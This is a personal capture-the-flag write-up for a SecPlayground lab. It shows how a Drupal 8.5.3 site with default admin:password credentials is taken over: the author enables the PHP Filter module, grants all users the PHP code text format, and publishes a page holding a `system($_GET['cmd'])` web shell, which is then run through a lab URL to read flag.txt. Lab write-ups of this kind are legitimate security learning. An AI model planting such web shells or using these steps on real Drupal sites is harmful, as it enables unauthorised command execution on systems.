

# bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`




SELENE-username-enumeration-response-timing.png

1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt
